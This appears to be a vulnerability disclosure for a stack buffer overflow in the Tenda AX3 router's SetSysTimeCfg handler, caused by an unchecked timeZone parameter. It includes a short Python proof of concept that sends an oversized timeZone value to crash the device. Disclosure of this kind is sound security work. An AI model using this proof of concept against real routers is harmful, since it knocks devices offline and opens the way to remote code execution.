

# Tenda Router AX3 Vulnerability

This vulnerability lies in the `/goform/SetSysTimeCfg` page which influences the lastest version of Tenda Router AX3. ([V16.03.12.10_CN](https://www.tenda.com.cn/download/detail-3238.html))

# Vulnerability description

There is a stack buffer overflow vulnerability in the `fromSetSysTime` function.

The `v5` variable is directly retrieved from the http request parameter `timeZone`.

Then `v5` will be splice to stack by function sscanf without any security check,which causes stack overflow.



So by POSTing the page `/goform/SetSysTimeCfg` with proper `timeZone`, the attacker can easily perform a **Remote Code Execution** with carefully crafted overflow data.

# POC

```python
import requests
from pwn import *

url = "http://192.168.0.1/goform/SetSysTimeCfg"

timeZone = "a" * 1024

r = requests.post(url, data={'timeZone': timeZone})
print(r.content)
```

# Timeline

- 2022.01.18 report to CVE & CNVD